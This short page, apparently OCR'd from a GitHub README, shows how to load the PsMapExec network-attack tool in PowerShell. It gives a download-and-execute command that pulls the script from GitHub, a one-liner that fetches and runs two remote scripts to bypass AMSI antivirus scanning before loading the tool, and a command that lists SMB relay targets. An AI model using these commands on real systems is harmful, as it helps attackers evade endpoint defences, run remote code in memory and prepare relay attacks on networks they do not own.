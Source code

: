 Here you can load PsMapExec :

This will automatically blocked by your AV
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```

Bypass AMSI and load PsMapExec :)
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);Start-sleep -s 3;iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/lain.txt -Usebasicparsing);Start-sleep -s 3;iex(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```

You can start by check SMB signing
```
PsMapExec -Targets All -Method GenRelayList
```



